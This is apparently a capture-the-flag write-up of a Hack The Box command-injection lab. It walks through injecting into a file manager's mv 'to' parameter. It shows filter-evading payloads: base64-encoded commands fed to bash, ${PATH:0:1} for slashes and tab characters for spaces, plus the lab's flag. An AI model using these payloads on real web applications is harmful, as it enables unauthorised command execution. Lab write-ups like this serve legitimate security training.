

# Skills Assessment

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

**Questions**

What is the content of '/flag.txt'?

### &#x20;**Interface**

<figure><figcaption></figcaption></figure>

When you log in as guest/guest, the file manager appears like this. Checking file contents, downloading files, and moving files all worked by default.

### Finding Attack Vector

<figure><figcaption></figcaption></figure>

While pressing various buttons, I found a page that had the function of moving files. Here, if you select the tmp directory, tmp is reflected in the 'to' variable of the url, that is, as follows.

http://188.166.173.208:30913/index.php?to= tmp \&from=877915113.txt

&#x20;'Couldn't the mv command have been used here?' An analogy was made. So, I thought it might spit out an error, so I tried pressing the Move button without putting any value into the 'to' variable.

<figure><figcaption></figcaption></figure>

Through this error, we could see that the mv command had been used.

### Exploit

Now that we know that we are using the mv command, we need to properly inject the GET parameters. There is something to be careful about here. When moving a file using the existing mv command mv \<file name> \<directory to move to> Because you enter the command like this:

**We need to inject the command we want into 'to', not 'from'.**

Now that we know the exact attack vector, let’s inject the payload one by one.

In my case, I used ||(%7c%7c). To use &&, the previous command is normally

This is because the file had to be moved continuously during testing because it had to operate.

<figure><figcaption></figcaption></figure>

When only the operator was entered like this, an error that I had not seen before occurred. On the other hand

<figure><figcaption></figcaption></figure>

When I entered the command like this, I confirmed that basic commands such as cat, mv, ls, etc. were filtered out. On the one hand, it also tells us that the operator is not filtering. On the other hand, the bash command was confirmed to work.

First of all, since the basic commands are filtered, I chose to encode them in base64. The encoded command will be given again as input to the base64 command, and this will then be given as input to the bash command. So at first, I thought I could just move the /flag.txt file to the tmp directory and check the contents.

First, encode the command as follows.

<figure><figcaption></figcaption></figure>

If you set the payload as described above, it is as follows.

```bash
%7c%7cbash<<<$(base64 -d<<<bXYgL2ZsYWcudHh0IC92YXIvd3d3L2h0bWwvZmlsZXMvdG1w)
```

But the above method didn't work.

Thinking about what I learned, basically, cases like '/' or '\\' that are needed to indicate the location of a directory are

Basically, it was said that there was a high possibility that it would be filtered.

<figure><figcaption></figcaption></figure>

As above, '/' was bypassed and re-encoded.

(To briefly explain, the PATH environment variable is used and sliced ​​to load the first letter, '/'.)

```bash
%7c%7cbash<<<$(base64 -d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRI
OjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)
```

This also didn't work...

Then, I wondered if it was because of space filtering, so I added a tab (%09) between the base64 and -d options.

<figure><figcaption></figcaption></figure>

Wow, it finally ran, but Permission denied... A moment of frustration

It took me about a second to realize that I was stupid.

I was showing an error on the screen, but I was making it difficult for no reason lol.

Let's encode the cat /flag.txt command and send it back.

I was able to get the flag.

```bash
echo -n 'cat ${PATH:0:1}flag.txt' | base64
Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=
GET /index.php?to=%7c%7cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=)&from=605311066.txt&finish=1&move=1
HTB{c0mm4nd3r_1nj3c70r}
```

### Reference

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)
